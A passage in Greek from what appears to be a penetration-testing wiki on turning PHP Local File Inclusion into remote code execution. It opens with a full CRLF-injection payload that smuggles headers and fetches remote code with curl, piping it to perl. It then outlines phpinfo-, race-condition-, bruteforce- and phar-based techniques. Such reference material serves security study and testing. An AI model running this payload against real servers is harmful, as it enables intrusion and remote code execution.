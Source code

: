 Η παρακάτω εκμεταλλεύεται μια ευπάθεια CRLF για να αποκτήσει RCE (από [**εδώ**](https://blog.orange.tw/2024/08/confusion-attacks-en.html?m=1)):
```
http://server/cgi-bin/redir.cgi?r=http:// %0d%0a
Location:/ooo? %2b run-tests %2b -ui %2b $(curl${IFS}orange.tw/x|perl) %2b alltests.php %0d%0a
Content-Type:proxy:unix:/run/php/php-fpm.sock|fcgi://127.0.0.1/usr/local/lib/php/pearcmd.php %0d%0a
%0d%0a
```
### Μέσω phpinfo() (file\_uploads = on)

Αν βρείτε μια **Local File Inclusion** και ένα αρχείο που εκθέτει **phpinfo()** με file\_uploads = on μπορείτε να αποκτήσετε RCE:

{% content-ref url="lfi2rce-via-phpinfo.md" %}
[lfi2rce-via-phpinfo.md](lfi2rce-via-phpinfo.md)
{% endcontent-ref %}

### Μέσω compress.zlib + `PHP_STREAM_PREFER_STUDIO` + Path Disclosure

Αν βρείτε μια **Local File Inclusion** και μπορείτε να **εξάγετε τη διαδρομή** του προσωρινού αρχείου ΑΛΛΑ ο **διακομιστής** **ελέγχει** αν το **αρχείο που θα συμπεριληφθεί έχει PHP marks**, μπορείτε να προσπαθήσετε να **παρακάμψετε αυτόν τον έλεγχο** με αυτή τη **Race Condition**:

{% content-ref url="lfi2rce-via-compress.zlib-+-php_stream_prefer_studio-+-path-disclosure.md" %}
[lfi2rce-via-compress.zlib-+-php\_stream\_prefer\_studio-+-path-disclosure.md](lfi2rce-via-compress.zlib-+-php\_stream\_prefer\_studio-+-path-disclosure.md)
{% endcontent-ref %}

### Μέσω αιώνιας αναμονής + bruteforce

Αν μπορείτε να εκμεταλλευτείτε την LFI για να **ανεβάσετε προσωρινά αρχεία** και να κάνετε τον διακομιστή να **κολλήσει** την εκτέλεση PHP, τότε θα μπορούσατε να **δοκιμάσετε να βρείτε ονόματα αρχείων για ώρες** για να βρείτε το προσωρινό αρχείο:

{% content-ref url="lfi2rce-via-eternal-waiting.md" %}
[lfi2rce-via-eternal-waiting.md](lfi2rce-via-eternal-waiting.md)
{% endcontent-ref %}

### Σε Fatal Error

Αν συμπεριλάβετε οποιοδήποτε από τα αρχεία `/usr/bin/phar`, `/usr/bin/phar7`, `/usr/bin/phar.phar7`, `/usr/bin/phar.phar`. (Πρέπει να συμπεριλάβετε το ίδιο δύο φορές για να προκαλέσετε αυτό το σφάλμα).

**Δεν ξέρω πόσο χρήσιμο είναι αυτό αλλά μπορεί να είναι.**\
_Ακόμα και αν προκαλέσετε ένα PHP Fatal Error, τα προσωρινά αρχεία PHP που έχουν ανέβει διαγράφονται._

<figure><img src="../../.gitbook/assets/image (1031).png" alt=""><figcaption></figcaption></figure>

## Αναφορές
